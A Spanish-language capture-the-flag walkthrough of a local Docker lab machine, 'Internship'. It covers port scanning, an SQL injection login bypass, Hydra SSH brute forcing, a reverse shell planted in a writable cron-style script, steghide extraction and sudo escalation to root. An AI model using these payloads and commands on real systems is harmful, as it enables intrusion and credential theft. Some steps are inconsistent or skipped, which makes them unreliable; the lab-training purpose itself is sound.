# 🧠 **Informe de Pentesting – Máquina: Internship**

### 💡 **Dificultad:** Fácil


---

## 📝 **Descripción de la máquina**

*Internship* es una máquina de dificultad baja diseñada para simular un entorno realista de pasantes que han cometido errores comunes de seguridad, incluyendo malas configuraciones, contraseñas débiles, y almacenamiento inseguro de archivos. Ideal para practicar reconocimiento, inyección SQL, fuerza bruta y escalada de privilegios.

---

## 🎯 **Objetivo**

El objetivo es obtener acceso inicial al sistema, escalar privilegios hasta obtener acceso como `root`, y capturar la flag de cada usuario comprometido.

---

## ⚙️ **Despliegue de la máquina**

Se descomprime el archivo y se lanza el contenedor Docker con el script proporcionado:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```



---

## 📡 **Comprobación de conectividad**

Se verifica conectividad hacia la IP del contenedor con un `ping`:

```bash
ping -c1 172.17.0.3
```



---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP



Después, identificamos servicios y versiones:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```



---

## 🌐 **Reconocimiento Web**

Accedemos a `http://172.17.0.3/` y encontramos una página de bienvenida:



En el código fuente descubrimos el dominio `gatekeeperhr.com`. Para acceder correctamente, lo añadimos al archivo de hosts:

```bash
sudo nano /etc/hosts
```

Agregamos:

```
172.17.0.3 gatekeeperhr.com
```




Esto nos da acceso a una pantalla de inicio de sesión:



---

## 🧨 **Inyección SQL**

Probamos una inyección simple:

```
Usuario: ' OR 1=1-- -
Contraseña: (cualquier valor)
```

Esta inyección manipula la consulta SQL para que siempre devuelva verdadero, permitiendo el acceso sin credenciales válidas.




Desde la interfaz obtenemos posibles nombres de usuarios.

---

## 🔎 **Fuzzing y Análisis Web**

Fuzzing sobre el dominio revela múltiples rutas interesantes:

```
/about.html
/contact.html
/default
/spam
/includes
/lab
```



En `/spam`, se muestra una pantalla negra, pero el código fuente revela un mensaje cifrado con ROT13:

```
Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
```

Descifrado con:

```bash
echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```
La contraseña de uno de los pasantes es 'purpl3'
```

---

## 🛠️ **Ataque Fuerza Bruta (Hydra)**

Creamos un archivo `users.txt` con los nombres de los pasantes y realizamos fuerza bruta con Hydra:

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4
```

Se descubren credenciales válidas:

```
[22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
```



---

## 🧑‍💻 **Acceso SSH y Primer Flag**

Accedemos vía SSH:

```bash
ssh pedro@172.17.0.3
```

No tiene permisos `sudo`. Encontramos la flag `fl4g.txt` en su home. En `/opt` hay un script `log_cleaner.sh` editable por nosotros. Lo modificamos para lanzar una reverse shell:

```bash
nano log_cleaner.sh
```

Agregamos:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Escuchamos la conexión:

```bash
sudo nc -lvnp 443
```


---

## 🕵️‍♂️ **Análisis de Archivos Ocultos**

Desde la cuenta `valentina` encontramos la imagen `profile_picture.jpeg`, la copiamos a `/tmp` y damos permisos globales para su análisis:

```bash
cp ~/profile_picture.jpeg /tmp
chmod 777 profile_picture.jpeg
```



Desde nuestra máquina, la descargamos con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Usamos `steghide` para extraer archivos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Nos pide una contraseña, solo presionamos `Enter`. Se extrae `secret.txt`:

```bash
cat secret.txt
```

Contenido:

```
mag1ck
```



---

## 🧗‍♂️ **Escalada de Privilegios**

Nos cambiamos a `valentina` con la contraseña `mag1ck`:

```bash
su valentina
```

Verificamos sus privilegios:

```bash
sudo -l
```

Salida:

```
(ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Esto permite escalar a root usando `vim`. Ejecutamos:

```bash
sudo su
```

¡Acceso root conseguido! 🚩



---
